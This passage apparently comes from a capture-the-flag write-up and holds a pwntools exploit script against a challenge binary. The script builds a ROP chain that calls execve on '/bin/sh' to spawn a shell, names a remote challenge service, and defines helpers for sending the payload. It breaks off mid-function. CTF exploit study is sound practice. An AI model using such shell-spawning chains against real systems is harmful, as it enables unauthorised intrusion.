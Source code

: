 ```py
	payload += p64(mov_rdx_rdi_ret) # rdx = 0
	payload += p64(pop_rsi_ret) + p64(0) # rsi = 0
	payload += p64(pop_rdi_ret) + p64(buffer - 8)
	payload += p64(magic2) + p64(0) # rdi = [buffer] = rcx + 0xC0
	payload += p64(pop_rax_ret) + p64(59) # rax = 59
	payload += p64(syscall)
	payload += b'/bin/sh\x00' * 10
	for i in payload:
		sn(p8(i) + b'a')
	sn(b'\x00'*2)
```

---

## exp.py

```py
#!/usr/bin/python3
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug'
context.arch='amd64'
context.terminal = ['tmux','sp','-h','-l','120']

remote_service = "cha.hackpack.club 20994"
remote_service = remote_service.strip().split(" ")
# p = remote(remote_service[0], int(remote_service[1]))
filename = "./pwn"
p = process(filename)
e = ELF(filename, checksec=False)
l = ELF(e.libc.path, checksec=False)

rl = lambda a=False : p.recvline(a)
ru = lambda a,b=True : p.recvuntil(a,b)
rn = lambda x : p.recvn(x)
sn = lambda x : p.send(x)
sl = lambda x : p.sendline(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
irt = lambda : p.interactive()
dbg = lambda text=None : gdb.attach(p, text)
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
def debugPID():
    lg("p.pid")
    input()
def sendPayload(payload):
	ru(b'program length: ')
	sl(str(len(payload)).encode())
	ru(b'program source: ')
	sn(payload)
def calcLen(payload):
	initSum = 0
	for i in payload.decode():
		if 	 i == '[' or i == ']':
			initSum += 0xa
		elif i == '+' or i == '-':
			initSum += 0x3
		elif i == '>' or i == ',':
			initSum += 0x1d
		elif i == '<':
```
